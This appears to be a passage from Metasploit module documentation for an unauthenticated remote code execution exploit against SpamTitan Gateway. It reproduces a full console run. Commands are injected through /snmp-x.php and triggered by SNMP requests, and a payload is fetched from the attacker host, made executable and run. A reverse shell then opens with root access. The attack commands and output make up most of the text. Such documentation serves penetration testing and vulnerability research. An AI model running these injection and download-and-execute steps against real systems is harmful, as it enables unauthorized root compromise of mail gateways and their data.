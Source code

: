 ```
msf6 exploit(freebsd/webapp/spamtitan_unauth_rce) > run

[*] Started reverse TCP handler on 172.16.60.1:4444
[*] Executing automatic check (disable AutoCheck to override)
[*] Check if /snmp-x.php exists
[+] The target appears to be vulnerable.
[*] Using URL: http://0.0.0.0:8080/AW6l3kjAO2B
[*] Local IP: http://192.168.1.75:8080/AW6l3kjAO2B
[*] Generated command stager: ["fetch -qo /tmp/BrnPtJiQ http://172.16.60.1:8080/AW6l3kjAO2B", "chmod +x /tmp/BrnPtJiQ", "/tmp/BrnPtJiQ", "rm -f /tmp/BrnPtJiQ"]
[*] Send a request to /snmp-x.php and inject the payload: /bin/tcsh -c 'fetch\ -qo\ /tmp/BrnPtJiQ\ http://172.16.60.1:8080/AW6l3kjAO2B&'#
[*] Send an SNMP Get-Request to trigger the payload
[*] Client 172.16.60.101 (fetch libfetch/2.0) requested /AW6l3kjAO2B
[*] Sending payload to 172.16.60.101 (fetch libfetch/2.0)
[+] SNMP Get-Request response (status=noError): [1] 16531
[*] Command Stager progress -  52.21% done (59/113 bytes)
[*] Send a request to /snmp-x.php and inject the payload: /bin/tcsh -c 'chmod\ \+x\ /tmp/BrnPtJiQ&'#
[*] Send an SNMP Get-Request to trigger the payload
[+] SNMP Get-Request response (status=noError): [1] 16561
[*] Command Stager progress -  71.68% done (81/113 bytes)
[*] Send a request to /snmp-x.php and inject the payload: /bin/tcsh -c '/tmp/BrnPtJiQ&'#
[*] Send an SNMP Get-Request to trigger the payload
[+] SNMP Get-Request response (status=noError): [1] 16590
[*] Command shell session 2 opened (172.16.60.1:4444 -> 172.16.60.101:16026) at 2020-10-28 15:57:34 +0100
[*] Command Stager progress -  83.19% done (94/113 bytes)
[*] Send a request to /snmp-x.php and inject the payload: /bin/tcsh -c 'rm\ -f\ /tmp/BrnPtJiQ&'#
[*] Send an SNMP Get-Request to trigger the payload
[+] SNMP Get-Request response (status=noError): [1] 16619
[*] Command Stager progress - 100.00% done (113/113 bytes)
[*] Server stopped.

id
uid=0(root) gid=0(wheel) groups=0(wheel),5(operator)
uname -a
FreeBSD spamtitan.example.com 10.1-RELEASE-p8 FreeBSD 10.1-RELEASE-p8 #1: Wed May  6 10:36:09 IST 2015     root@stbuild-10-amd64.spamtitan.com:/usr/obj/usr/src/sys/SPAMTITAN  amd64
^C
Abort session 2? [y/N]  y

[*] 172.16.60.101 - Command shell session 2 closed.  Reason: User exit
```

### SpamTitan Gateway v7.01 - target 1 (FreeBSD Dropper - x64)

```
msf6 exploit(freebsd/webapp/spamtitan_unauth_rce) > set target 2
target => 2
msf6 exploit(freebsd/webapp/spamtitan_unauth_rce) > show options

Module options (exploit/freebsd/webapp/spamtitan_unauth_rce):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   ALLOWEDIP                   no        The IP address that will be allowed to query the injected `extend` command. This IP will be added to the SNMP configuration file on the target. This is tipically this host IP address, but can be different if your are in a NAT'ed network. If not set, `LHOST` will be used instead. If `LHOST` is not set, it will default to `127.0.0.1`.
   COMMUNITY  BTMlXXtt         no        The SNMP Community String to use (random string by default)
```